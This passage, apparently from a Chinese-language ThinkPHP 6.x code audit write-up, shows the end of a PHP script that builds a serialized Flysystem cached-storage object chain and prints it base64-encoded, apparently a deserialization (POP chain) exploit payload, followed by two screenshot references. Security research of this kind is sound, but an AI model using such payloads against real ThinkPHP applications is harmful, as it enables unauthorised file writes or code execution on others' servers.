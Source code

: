 ```php
    class Local {
        protected $writeFlags = 0;
    }
}

namespace {
    $local = new League\Flysystem\Adapter\Local();
    $cache = new League\Flysystem\Cached\Storage\Adapter($local);
    echo base64_encode(serialize($cache));
}
?>
```
<img src="./ThinkPHP6.x 代码审计/tp6-pop-3-7.png" alt="">

<img src="./ThinkPHP6.x 代码审计/tp6-pop-3-8.png" alt="">
